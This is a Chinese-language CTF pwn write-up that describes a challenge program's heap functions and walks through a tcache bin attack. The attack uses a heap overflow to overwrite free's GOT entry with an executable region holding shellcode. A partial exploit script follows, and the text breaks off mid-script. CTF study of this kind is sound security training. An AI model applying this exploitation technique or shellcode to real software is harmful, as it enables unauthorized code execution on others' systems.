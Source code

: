 ![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9Lfu0ibJ4wwJcfWptkASpNOHKl5KooUV2Vciajafu5yPeCGxoSf6FKkGLeKTW7KLKHgu3OJoNLToN6Ow/640?wx_fmt=other&from=appmsg "null")  
  
  
PASS注册名称为Hello  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9Lfu0ibJ4wwJcfWptkASpNOHKeNVWD7oowVKd3sSYKlcAmLxQScZiabIibBlibDxW7OQ2PywWwValK6ichA/640?wx_fmt=other&from=appmsg "null")  
  
  
Add函数，一个参数，申请一个堆块  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9Lfu0ibJ4wwJcfWptkASpNOHK73c8FUJ6dyR4DkwiazNsWJickJSWyTXk1sQCibqEuoDUCdFW99KBbJ9Rw/640?wx_fmt=other&from=appmsg "null")  
  
  
Del函数，一个参数，free一个堆块，没有uaf  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9Lfu0ibJ4wwJcfWptkASpNOHKUR5dCFaMvGtiaJDRKYCibhXNjz0zCHUtN30UpjymicmKnWQkOibPRDla4w/640?wx_fmt=other&from=appmsg "null")  
  
  
edit(idx,data_idx,data)，edit函数，3个参数，向第idx个chunk的第data_idx个四字节写入4字节  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9Lfu0ibJ4wwJcfWptkASpNOHKJaqs04AVc1mjRc8XsMicD9IJSHPd2f6SSibHg5kfZFh2oX8VbDdqQYfg/640?wx_fmt=other&from=appmsg "null")  
  
  
Alloc函数，没有参数，将0x10000设置为可读可写可执行  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9Lfu0ibJ4wwJcfWptkASpNOHKdZlpic827qTqUNHZMSDRaiarQdTdDibib96StExAiaZb6udMbzmERZHnJYw/640?wx_fmt=other&from=appmsg "null")  
  
  
EditAlloc函数，2个参数，EditAlloc(idx,idx_alloc)，把第idx个chunk的前4个字节赋值给0x10000+idx_alloc处  
  
基本exp  
```
void Add(int size);
void Del(int idx);
void Edit(int idx,int data_idx,int data);
void Alloc();
void EditAlloc(int idx,int addr);
void hello(){

}
```  
  
在edit中，存在堆溢出，可利用edit修改tcache bin中chunk的fd，进行tcache bin attack，执行一次Alloc，申请0x10000开始的0x1000的空间，写入shellcode，由于没有开启PIE，用tcache bin attack改free的got表为0x10000，然后执行Del函数，执行shellcode拿到shell  
  
最终exp  
```
void Add(int size);
void Del(int idx);
void Edit(int idx,int data_idx,int data);
void Alloc();
void EditAlloc(int idx,int addr);

void hello(){
Add(0xa0);

Add(0x78); //0x8203
Edit(1,0,0xdeadbeef); // 0x8602
Add(0x78);
Edit(2,0,0xdeadbeef); // 0x8602
Add(0x78);
Edit(3,0,0xdeadbeef); // 0x8602
Del(1);
Del(3); //0x83e4
Edit(2,32,0x78b108); //

Alloc();//0x8690
Edit(0,0,0x56f63148); // 0x8602
EditAlloc(0,0);
Edit(0,0,0x622fbf48); // 0x8602
```